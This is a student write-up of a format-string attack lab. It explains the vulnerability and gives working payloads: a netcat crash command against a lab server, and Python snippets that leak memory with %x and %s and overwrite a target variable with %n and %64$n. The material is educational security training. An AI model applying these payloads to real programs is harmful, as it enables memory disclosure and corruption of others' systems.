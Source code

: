 # Format-string Attack Lab | Alex Baron

Some programs allow users to provide the entire or part of the contents in a format string. If such contents are not sanitized, malicious users can use this opportunity to get the program to run arbitrary code. A problem like this is called format string vulnerability.

## Task1: Crashing the Program

It is possibile to make the program crash with the following input:
> echo %s | nc 10.9.0.5 9090

In this case, the program will interpret the %s as a pointer to a strin, starting from the location of the buffer. If it gets an invalid address the program will try to access that address and this will cause the program to crash.

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A

By writing the following content to the badfile it is possible to notice that after 64 %x our input will show up.

```py
content[0:4] = (0x99999999).to_bytes(4, byteorder='little')
s = ("%x "*64).encode('latin-1')
content[4:4+len(s)] = s
```

### Task 2.B

To print out the secret message, we need to place its address, in binary form, in the format string and read that address with %s.

```py
content[0:4] = (0x080ac2c8).to_bytes(4, byteorder='little')
s = ("%x "*63 + "%s").encode('latin-1')
content[4:4+len(s)] = s
```

## Task 3: Modifying the Server Program’s Memory

### Task 3.A

With %n we can write into the target variable. In particular, %n writes the number of characters in the address given as argument.

```py
content[0:4] = (0x080da068).to_bytes(4, byteorder='little')
s = ("%x "*63 + "%n").encode('latin-1')
content[4:4+len(s)] = s
```

### Task 3.B

In this task we first need to put into the stack the address of the target variable that are 4bytes. Then, to write 0x5000 which is 20480, we can add a width of 20476 (considering the first 4 bytes of the address) and at the end use %64$n. The latter format directly access the 64th parameter (we know that our address resides in the 64th position) on stack and write the address there with %n.

```py
content[0:4] = (0x080da068).to_bytes(4, byteorder='little')
s = ("%20476d" + "%64$n").encode('latin-1') #%64$08n
content[4:4+len(s)] = s
```
